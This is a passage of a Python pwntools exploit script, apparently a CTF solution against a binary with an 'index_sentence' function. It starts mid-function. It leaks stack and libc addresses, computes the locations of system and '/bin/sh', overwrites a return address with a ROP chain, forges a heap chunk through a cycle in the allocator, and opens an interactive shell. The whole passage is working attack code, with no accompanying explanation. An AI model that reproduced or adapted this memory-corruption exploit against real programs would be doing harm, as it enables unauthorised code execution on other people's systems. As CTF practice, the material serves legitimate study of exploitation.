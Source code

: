 ``` python
    index_sentence('B'*56)

    # overwrite the return address
    buf = 'A'*30
    buf += p64(pop_rdi_ret)
    buf += p64(binsh_addr)
    buf += p64(system_addr)
    buf = buf.ljust(56, 'C')

    index_sentence(buf)

def main():
    stack_leak = leak_stack()

    # This makes stack_addr + 0x8 be 0x40
    stack_addr = stack_leak + 0x22 - 8

    log.info('stack leak: %s' % hex(stack_leak))
    log.info('stack addr: %s' % hex(stack_addr))

    libc_leak = leak_libc()
    libc_base = libc_leak - puts_offset
    system_addr = libc_base + system_offset
    binsh_addr = libc_base + binsh_offset

    log.info('libc leak: %s' % hex(libc_leak))
    log.info('libc_base: %s' % hex(libc_base))
    log.info('system addr: %s' % hex(system_addr))
    log.info('binsh addr: %s' % hex(binsh_addr))

    make_cycle()
    make_fake_chunk(stack_addr)
    allocate_fake_chunk(binsh_addr, system_addr)

    p.interactive()

if __name__ == '__main__':
    main()
```
